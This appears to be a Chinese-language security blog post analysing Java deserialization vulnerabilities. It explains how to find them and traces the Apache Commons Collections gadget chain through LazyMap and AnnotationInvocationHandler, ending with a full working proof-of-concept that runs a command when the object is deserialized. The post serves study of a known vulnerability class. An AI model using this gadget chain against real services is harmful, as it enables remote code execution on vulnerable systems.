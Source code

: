 ```yaml
---
layout: post
title: Java反序列化漏洞整理(一)
tags: java Web安全
typora-copy-images-to: ../assets/img
typora-root-url: ..
---
```


# Java反序列化漏洞整理(一)

## 发现

[Deserialization_Cheat_Sheet](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Deserialization_Cheat_Sheet.md)

- 白盒：可能出现的API包括:`XStream`,`readObject`, `readObjectNodData`, `readResolve` or `readExternal`等等
- 黑盒：HEX中出现`AC ED 00 05`，Content-type：`application/x-java-serialized-object`

## 利用

想要执行任意命令：

```java
Runtime.getRuntime().exec("calc");
```

使用反射获取的话就需要分成两部分，一部分是调用getRuntime(),一部分是调用exec();

```java
  Class class1=Runtime.class;
        Method getRuntime=class1.getMethod("getRuntime");
        Runtime runtime=(Runtime) getRuntime.invoke(null);
        //获得runtime实例
        Class class2=runtime.getClass();
        Method exec=class2.getMethod("exec", String.class);
        exec.invoke(runtime,"calc");
```

假设我们已经获取到了一个反序列化漏洞

我们可以控制这个类的实例，但是函数调用我们无法控制，和PHP反序列类似的，我们应该寻找在反序列化后会自动执行的函数。在Java的动态代理中，使用newProxy的代理后，在调用代理对象的方法时，会自动执行实现的InvocationHandler接口的invoke方法。

> 原则：**实例属性是我们可控的，函数调用是我们不可控的**。也就是所谓的POP(Property Oriented Programming)

#### 一个POP Gadget的分析

`org.apache.commons.collections.functors.InvokerTransformer#transform`

这个类继承了Transformer接口，并实现了transform方法

![1560782782828](/assets/img/1560782782828.png)

可以看到InvokerTransformer中的transform方法可以对一个输入类input通过反射调用其的一个方法，其中的MethodName以及ParamTypes还有Args都是InvokerTransformer的成员变量，所以是我们可以控制的。

但是这一个方法并不足以让我们执行命令

我们在包里寻找同样实现了Transformer接口的类

`org.apache.commons.collections.functors.ChainedTransformer`

![1560787877155](/assets/img/1560787877155.png)

其中的transform方法，可以看到这里就是一个链式调用transform的方法，可以满足我们RCE的要求。而这里的iTransformers是成员变量，也是我们可以控制的。

但是可以注意到，我们还需要先获取得到Runtime类的class,才能调用getMethod其的静态方法getRuntime。我们在寻找实现了Transformer接口的类，

`org.apache.commons.collections.functors.ConstantTransformer`中的transform方法，是直接返回这个类中的成员变量iConstant。

由于ConstantTransformer的transform方法的返回值是一个Class类型，所以这里我们只能利用反射来调用反射，听起来有点绕，直接看调用链就清楚了

到这里的利用链

![1560843125368](/assets/img/1560843125368.png)

接着我们需要寻找可以调用transform的地方。

`org.apache.commons.collections.map.LazyMap#get`

![1560857576938](/assets/img/1560857576938.png)

调用了factory.transform(key)，而这里的factory是LazyMap的成员变量，也是我们可控的。

![1560925894050](/assets/img/1560925894050.png)

我们接着寻找get方法的调用，这里调用是比较普遍的，我们希望存在一个类，其实现了InvocationHandler接口，Invoke方法调用了get方法,同时其的调用者是一个成员变量，使我们可以控制的。

`sun.reflect.annotation.AnnotationInvocationHandler#invoke`

![1560912962249](/assets/img/1560912962249.png)

而这里的memberValues是我们可控的

![1560925421605](/assets/img/1560925421605.png)

这样，我们为一个对象创建代理对象，这个代理对象的InvocationHandler，我们使用构造的`AnnotationInvocation(Override.class,lazyMap)`即可。

接着我们还要寻找一个对象是在反序列化时，会自动调用其的某一个方法。在反序列化时自动调用readObject，

所以我们直接去找readObject。

还是在`sun.reflect.annotation.AnnotationInvocationHandler#readObject`

![1560928730834](/assets/img/1560928730834.png)

![1560928913641](/assets/img/1560928913641.png)

我们发现在readObject的过程中调用了memberValues的entrySet方法。而前面说过，这里的memberValues是我们可控的map，所以这里就明了了，我们需要创建的代理对象就是这个map，然后传递到AnnotationInvocationHandler中，最后反序列化这个AnnotationInvocationHandler。

Dlive总结的利用链：

![1560930436872](/assets/img/1560930436872-1560933390300.png)

#### payload以及测试结果：

```java
//jdk1.7

public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException {
        Transformer[] invokerTransformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(invokerTransformers);
        //chainedTransformer.transform(1);
        Map lazyMap=LazyMap.decorate(new HashMap(),chainedTransformer);
        //lazyMap.get(1);
        String annoInvocationReferce="sun.reflect.annotation.AnnotationInvocationHandler";
        //AnnotationInvocationHandler在sun包中我们无法直接调用,使用反射调用
        Constructor<?> constructor= Class.forName(annoInvocationReferce).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler=(InvocationHandler) constructor.newInstance(Override.class,lazyMap);

        HashMap hashMap=new HashMap();
        //创建一个代理Map
        Map proxyMap= (Map)Proxy.newProxyInstance(
                hashMap.getClass().getClassLoader(),
                hashMap.getClass().getInterfaces(),
                invocationHandler
        );
        //需要反序列化的AnnotationInvocationHandler
        InvocationHandler invocationHandler1=(InvocationHandler)constructor.newInstance(Override.class,proxyMap);
        //测试
        try {
            ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
            ObjectOutputStream outputStream=new ObjectOutputStream(byteArrayOutputStream);
            outputStream.writeObject(invocationHandler1);
            ObjectInputStream inputStream=new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            inputStream.readObject();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

![1560930308651](/assets/img/1560930308651.png)

参考：

1. http://d1iv3.me/2018/06/05/CVE-2015-4852-Weblogic-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96RCE%E5%88%86%E6%9E%90/

## 总结

Gadget的分析还是挺好玩的，涉及到比较多关于java反射，代理以及反序列化的知识。利用链也非常巧妙。

关于一些现成的Gadget以及payload的生成可以使用ysoserial这个工具：https://github.com/frohoff/ysoserial  

留个坑，分析一下Weblogic的一些相关反序列化漏洞。







